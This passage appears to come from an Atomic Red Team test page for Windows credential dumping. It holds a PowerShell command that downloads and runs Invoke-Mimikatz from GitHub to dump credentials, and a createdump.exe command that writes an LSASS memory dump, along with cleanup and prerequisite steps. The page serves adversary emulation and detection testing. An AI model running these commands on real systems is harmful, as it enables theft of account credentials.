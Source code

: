 **Supported Platforms:** Windows


**auto_generated_guid:** 66fb0bc1-3c3f-47e9-a298-550ecfefacbc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_script | URL to a remote Mimikatz script that dumps credentials | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```






<br/>
<br/>

## Atomic Test #11 - Dump LSASS with createdump.exe from .Net v5
Use createdump executable from .NET to create an LSASS dump.

[Reference](https://twitter.com/bopin2020/status/1366400799199272960?s=20)

**Supported Platforms:** Windows


**auto_generated_guid:** 9d0072c8-7cca-45c4-bd14-f852cfa35cf0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$exePath =  resolve-path "$env:ProgramFiles\dotnet\shared\Microsoft.NETCore.App\5*\createdump.exe"
& "$exePath" -u -f $env:Temp\dotnet-lsass.dmp (Get-Process lsass).id
```

#### Cleanup Commands:
```powershell
Remove-Item $env:Temp\dotnet-lsass.dmp -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: .Net v5 must be installed
##### Check Prereq Commands:
```powershell
$exePath =  resolve-path "$env:ProgramFiles\dotnet\shared\Microsoft.NETCore.App\5*\createdump.exe"
if ($exePath -and (Test-Path $exePath)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
winget install Microsoft.DotNet.DesktopRuntime.5 --accept-source-agreements --accept-package-agreements --silent
```
